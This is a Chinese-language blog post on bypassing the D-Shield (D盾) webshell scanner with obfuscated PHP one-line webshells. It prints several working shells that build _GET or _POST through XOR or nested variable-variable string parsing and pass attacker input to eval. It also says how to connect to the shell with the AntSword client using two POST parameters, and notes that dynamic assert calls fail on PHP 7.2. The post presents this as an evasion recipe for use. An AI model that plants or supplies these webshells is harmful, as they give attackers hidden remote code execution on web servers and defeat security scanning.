

### 前言

最近看到安全客一位老哥写了一篇关于bypass d盾一句话木马查杀的技巧，正好最近自己也想研究研究bypass 各大webshell查杀工具，于是就借着老哥的技巧自己拓展了一下。也算是有点小成果，特此记录一下。

### 0x01

在研究的过程中，相对于其他的webshell查杀工具，d盾的规则还是挺严格的，感觉d盾的策略侧重于关注eval,assert这些危险的语言结构或者函数，只要是发现危险函数中出现变量，不管它有没有识别出这个变量的值，先给你报警再说。。。宁可错杀一千也不放过一个，简直太狠了（而且d盾不像安全狗那样注重于正则匹配各种可能的危险调用，就死盯着这些危险函数的参数，所以有的文章说以安全狗为代表的一些查杀工具关注的是“形”，比较容易绕过，只要用各种动态函数调用、异或、无字符一句话、回调函数啥的就可以绕过，而d盾则是关注的危险函数的参数，一旦参数他不能百分百确定没问题，那就报警）

```php
<?php
$a = 123;
eval($a);
>
```


就这么个东西都要一级警告...

我不太熟悉d盾的自动查杀，不知道会不会查杀一级警告的文件，我想应该不会这么残忍，其实把一个一句话弄成一级告警还是挺简单的，例如下面这个：

```php
<?php
$a = "_GE";
$b = "T";
$c = $a.$b;
$d = $$c['a'];
eval($d);
```


当然了，一级是不能满足我们的需要的，我们需要木马彻底隐藏，在测试过程中了解到，d盾在发现危险函数，并且这个函数的参数是一个变量的话，那么基本就会告警，但是如果我们输入的危险函数的参数**看起来**是一个常量呢？安全客那位老哥给出的一种策略是：

```php
<?php
    $a = "~+d()"^"!{+{}";
    $b = ${$a}[a];
    eval("n".$b);
?>
```

其中用到了异或构造`_GET`,然后关键处用一个字符拼接了我们从get传来的数据，从而让d盾误以为eval的参数是一个字符串，实现了绕过。那有没有其他方法呢？我这里发现了一个更牛掰的：

```php
<?php
$x = "_POST";
$a = "${${'_POST'}['b']}";
eval("{$$a['a']}");
?>
```

我这个一句话，主要是利用了php中动态变量解析（不知道是不是这么叫），就是双引号是可以包裹的字符串，如果其中有变量，那么是会自动进行解析的，当然，除此之外我还稍稍对敏感的_POST稍微坐了一下处理，绕了几个圈～d盾查杀效果如下：


通过post传b=x&a=xxxx即可连接shell.


虽然需要传递两个参数，但是用蚁剑连接还是很方便的，只需要多配置一个http body就行：





### 0x02

在本次学习过程中，了解到php 7.2不能动态调用assert函数，也就是下面这种形式不能用了：

```php
$a = 'assert'
$$a('phpinfo();');
```

也就导致了以前很多的免杀一句话在php7.2版本就直接报错了，而且eval不是函数，只是一种语言结构，更是不支持动态函数调用了。所以，未来的d盾免杀，我们只能在eval参数上下功夫了（当然，可能还有一些特殊函数没有提到），当然，对于`_GET`以及`_POST`的隐藏还是必须的工序～


### 0x03

安全客老哥的文章：

https://www.anquanke.com/post/id/193787